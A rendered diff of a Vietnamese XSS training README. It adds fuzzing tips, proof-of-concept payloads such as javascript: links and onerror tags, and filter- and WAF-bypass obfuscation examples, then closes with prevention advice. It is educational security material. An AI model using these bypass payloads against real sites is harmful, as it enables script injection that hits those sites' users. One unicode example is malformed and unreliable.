

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task4/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/task4/README.md
+++ b/task4/README.md
@@ -82,3 +82,27 @@ Giống với các cuộc tấn công khác của XSS, kẻ tấn công có th
 - Từ đó xác định nó thuộc loại lỗ hổng XSS nào rồi khai thác như phần trên theo từng loại.
 
 ### Một số kỹ thuật và cách bypass
+#### Fuzz/Brute-Force
+- Test các tags html, custom tag và event có thể xss.(Sử dụng cheat sheet của <a href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet">PortSwigger</a>)
+- Dùng tool như burp suite và wordlist như <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection">PayloadsAllTheThings</a>, <a href="https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS" >Seclists</a>,...
+#### Javascript Pseudo-Protocol, Inside JavaScript code và escape ra ngoài:
+- `<a href="javascript:alert(1)">click</a>`
+- `'-alert(1)-'`, `';-alert(1)//`, `\';alert(1)//`, ...
+- `"><script ...`, `</script><img src=1 onerror=alert(document.domain)>`, ...
+#### Bypass WAF, filters, blacklist... :
+Kỹ thuật obfuscation:
+- Case Toggling: Kết hợp chữ hoa chữ thường như `<ScRipT>alert()</sCRipT>`.
+- URL encoding, HTML encoding.
+- Chuẩn hóa các ký tự unicode: `prompt()` => `\u0070r\u06f\u006dpt()`.
+- Sử dụng comment: `<!--><script>alert/**/()/**/</script>`
+- Double encoding: `%253Cscript%253Ealert()%253C%252Fscript%253E`
+- Dùng tabs: `<IMG SRC="    jav    ascri    pt:alert    ();">`.
+- Dùng các ký tự null bytes: `<scri%00pt>alert(1);</scri%00pt>`
+
+## Cách ngăn chặn XSS
+### Xử lý đầu vào
+- Lọc đầu vào: Sử dụng blacklist, whitelist, filters, regex, ...
+- Mã hóa đầu ra để không hiển thị các ký tự đặc biệt nhằm tấn công
+- Sử dụng các thư viện và frameworks an toàn.
+- Sử dụng HTTP-only Cookies để tránh bị đánh cắp, CSP để kiểm soát tài nguyên ngoài.
+- Thường xuyên cập nhật phần mềm, các dạng tấn công mới
```
